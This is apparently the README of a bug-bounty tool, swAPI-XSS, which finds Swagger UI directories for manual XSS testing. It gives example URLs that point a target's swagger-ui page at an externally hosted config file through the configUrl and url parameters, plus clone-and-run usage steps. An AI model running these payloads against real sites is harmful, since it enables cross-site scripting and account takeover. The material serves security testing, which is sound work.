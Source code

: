 #### swAPI-XSS to find swagger api directories and test manually for potential XSS vulnerability

##### Example:
#####  https://www.target.com/swagger-ui/index.html?configUrl=https://jumpy-floor.surge.sh/test.json
##### or
##### https://www.target.com/swagger-ui/index.html?url=https://jumpy-floor.surge.sh/test.yaml


[Click here to read about the swagger API XSS](https://www.vidocsecurity.com/blog/hacking-swagger-ui-from-xss-to-account-takeovers/)


Usage:

```
git clone https://github.com/Nightmre/swAPI-XSS.git
cd swAPI-XSS
chmod +x swxss.sh
./swxss.sh list.txt
```
